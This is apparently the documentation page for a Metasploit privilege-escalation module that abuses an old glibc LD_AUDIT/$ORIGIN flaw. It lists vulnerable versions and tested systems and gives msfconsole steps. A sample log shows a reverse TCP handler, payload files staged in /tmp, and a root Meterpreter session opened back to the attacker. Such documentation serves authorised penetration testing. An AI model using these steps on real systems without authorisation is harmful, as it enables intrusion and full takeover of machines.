 ## Description

  This module attempts to gain root privileges on Linux systems by abusing
  a vulnerability in the GNU C Library (glibc) dynamic linker.


## Vulnerable Application

  glibc `ld.so` versions before 2.11.3, and 2.12.x before 2.12.2 does not
  properly restrict use of the `LD_AUDIT` environment variable when loading
  setuid executables which allows control over the `$ORIGIN` library search
  path resulting in execution of arbitrary shared objects.

  This module opens a file descriptor to the specified suid executable via
  a hard link, then replaces the hard link with a shared object before
  instructing the linker to execute the file descriptor, resulting in
  arbitrary code execution.

  The specified setuid binary must be readable and located on the same
  file system partition as the specified writable directory.

  This module has been tested successfully on:

  * glibc 2.5 on CentOS 5.4 (x86_64)
  * glibc 2.5 on CentOS 5.5 (x86_64)
  * glibc 2.12 on Fedora 13 (i386)
  * glibc 2.5-49 on RHEL 5.5 (x86_64)

  Some versions of `ld.so`, such as the version shipped with Ubuntu 14,
  hit a failed assertion in `dl_open_worker` causing exploitation to fail.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/glibc_origin_expansion_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/glibc_origin_expansion_priv_esc 
  msf exploit(linux/local/glibc_origin_expansion_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/glibc_origin_expansion_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [+] The target appears to be vulnerable
  [*] Using target: Linux x86
  [*] Writing '/tmp/.R5Ork' (1279 bytes) ...
  [*] Writing '/tmp/.yE35DWbLd' (320 bytes) ...
  [*] Writing '/tmp/.sk7Z3Vl7vJ' (207 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (857352 bytes) to 172.16.191.138
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.138:59187) at 2018-01-27 04:21:24 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : fedora13.localdomain
  OS           : Fedora 13 (Linux 2.6.33.3-85.fc13.i686.PAE)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

